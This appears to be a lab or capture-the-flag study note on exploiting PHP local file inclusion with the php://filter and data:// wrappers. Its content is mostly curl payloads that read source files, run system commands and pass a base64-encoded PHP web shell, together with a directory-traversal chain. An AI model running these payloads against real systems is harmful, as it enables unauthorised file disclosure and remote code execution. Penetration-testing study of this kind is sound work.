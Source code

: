 ```yaml
---
layout: post
title: Web App PHP Wrappers
titledate: 08/30/23
tags: ["infosec","offsec", "web", "lfi", "exploit", "php", "http"]
---
```


<h4>PHP Wrappers</h4>

There are many php wrappers that can be used to bypass filters display file contents and obtain code execution

If we are trying to obtain more information about a php page perhaps we can use the php://filter wrapper

    $ curl http://vulnapp.com/home/index.php?page=php://filter/resource=admin.php

our content may be blocked so we can pass encoding options to filter

    $ curl http://vulnapp.com/home/index.php?page=php://filter/convert.base64-encode/resource=admin.php

the filter wrapper displays the file contents and the data wrapper can execute code

    $ curl "http://vulnapp.com/home/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"

as in the above filter wrapper example we may need to encode our command we pass to the data wrapper

    $ curl "http://vulnapp.com/home/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"

if we are using this in conjunction with a dir traversal it could look like

    $ curl http://vulnapp.com/home/index.php?page=php://filter/convert.base64-encode/resource=admin.php../../../../../../../../var/www/server/page.php

<h3>LOG ALL FLAGS BEFORE TURNING OFF MACHINE OR VPN</h3>
